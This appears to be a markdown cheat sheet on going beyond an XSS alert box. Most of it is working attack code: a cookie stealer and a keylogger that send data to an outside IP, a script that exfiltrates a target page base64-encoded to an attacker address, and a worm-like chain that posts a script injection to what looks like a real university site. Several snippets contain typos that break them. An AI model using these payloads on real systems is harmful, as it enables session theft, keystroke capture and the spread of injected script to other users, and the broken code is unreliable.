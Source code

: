 # Beyond alert
Going beyond the alert('xss')

## Info

After getting your xss alert box, what's next? This is not usually enough to "show impact", so on the good stuff!

## Techniques (code)

- Ping back
  ```js
  <script src="http://IP:PORT/"><script>
  ```

- Cookie Stealer
  ```js
  <img src=x onerror=this.src='http://5.5.5.5/?cookie='+document.cookie>
  ```

- Record key stokes

  Add this to a js file
  ```js
  var data = '';
  document.onkeypress = function(e) {
    var w = window.event ? event : e;
    var keystroke = w.keyCode ? w.keyCode : w.charCode;
    keystroke = String.fromCharCode(keystroke);
    data = data + keystroke;
  }
  window.setInterval(function(){
      new Image().src = 'http://5.5.5.5/?c=' + data;
      data = '';
  }, 1500);
  ```
  Then call the script in using xss
  ```js
  http://target.site/welcome.php?user=admin<script src='http://5.5.5.5/keylogger.js'></script>
  ```


## XHR examples

- Simple XHR
  - GET
    ```js
    var xhr = new XHMLHttpRequest();
    xhr.open("GET", "/url", true);
    xhr.send(null);
    ```

  - POST
    ```js
    var xhr = new XHMLHttpRequest();
    xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    xhr.open("POST", "/url", true);
    xhr.onreadystatechang = function() {
    if (this.readyState == XMLHttpRequest.DONE && this.status == 200){
    // Request finished do somethiung with data
    }};
    xhr.send(null);
    ```

- GET (a page)
  ```js
  var attackerurl = "http://10.10.14.86:80/";
  var targeturl = "http://ftp.crossfit.htb/accounts/create";

  var req = new XMLHttpRequest();
  req.onreadystatechange = function () {
    if (req.readyState == 4) {
      var req2 = new XMLHttpRequest();
      req2.open("GET", attackerurl + btoa(this.responseText), false);
      req2.send();
    }
  };
  req.open("GET", targeturl, false);
  req.send();
  ```
- GET (eg 2)
  ```js
  function exploit() {
    var xhr = new XMLHttpRequest();
    xhr.open('GET', '/iv/srtpHire_list.do?type=1', true);
    xhr.onreadystatechange = function () {
        if(xhr.readyState === 4 && xhr.status === 200) {
            var html = xhr.responseText;
            var item = new Set();
            while (r = re.exec(html)) {
                item.add(r[1]);
            }
            item = Array.from(item);
            var title = item[Math.floor(item.length*Math.random())];
            commit_proj(title);
        }
    };
    xhr.send(null);
  ```


- POST
```js
function commit_proj(title) {
    var xhr = new XMLHttpRequest();
    var start_date = new Date();
    var end_date = new Date((new Date()).setMinutes(start_date.getDate() + 33));
    start_date = formatDate(start_date);
    end_date = formatDate(end_date);
    xhr.open("POST", '/iv/group_add.do', true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    data = "beginDate=" + start_date;
    data += "&btn1=发布信息";
    data += "&contactNumber=" + Math.floor(Math.random() * 1000000000);
    data += "&detail=西南jio痛大学简直强无敌！"
    data += "&endDate=" + end_date;
    data += "&group.acceptCollegeCode=0&group.contactWay=0&group.sortId=1"
    data += "&theme=" + title;
    data += "&title=" + title + "%3Cscript+src%3D'https%3A%2F%2Fdkmy.ml%2Fswjtu%2Fcxw''%3E%3C%2Fscript%3E"
    xhr.send(data);
}
```


